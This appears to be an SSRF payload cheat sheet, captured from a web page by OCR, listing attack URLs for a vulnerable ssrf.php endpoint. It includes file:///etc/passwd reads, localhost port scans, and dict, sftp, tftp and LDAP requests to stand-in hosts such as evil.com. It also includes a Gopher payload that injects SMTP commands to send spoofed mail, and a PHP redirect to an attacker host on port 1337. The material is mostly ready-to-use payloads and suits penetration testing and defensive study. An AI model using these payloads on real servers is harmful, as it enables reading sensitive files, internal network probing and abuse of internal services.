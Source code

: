     file://path/to/file
    file:///etc/passwd
    file://\/\/etc/passwd
    ssrf.php?url=file:///etc/passwd
### HTTP
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

    ssrf.php?url=http://127.0.0.1:22
    ssrf.php?url=http://127.0.0.1:80
    ssrf.php?url=http://127.0.0.1:443
![github](https://miro.medium.com/v2/resize:fit:640/format:webp/0*pifG5gVJ216t81Sr)

The following URL scheme can be used to probe the network
### Dict
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

    dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
    ssrf.php?url=dict://attacker:11111/
### SFTP
A network protocol used for secure file transfer over secure shell

    ssrf.php?url=sftp://evil.com:11111/
### TFTP
Trivial File Transfer Protocol, works over UDP

    ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
### LDAP
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

    ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
### Gopher
    ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
    will make a request like
    HELO localhost
    MAIL FROM:<hacker@site.com>
    RCPT TO:<victim@site.com>
    DATA
    From: [Hacker] <hacker@site.com>
    To: <victime@site.com>
    Date: Tue, 15 Sep 2017 17:20:26 -0400
    Subject: Ah Ah AH
    You didn't say the magic word !
    .
    QUIT
### Gopher HTTP
    gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
    gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
### Gopher SMTP — Back connect to 1337
    Content of evil.com/redirect.php:
    <?php
    header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
    ?>
    Now query it.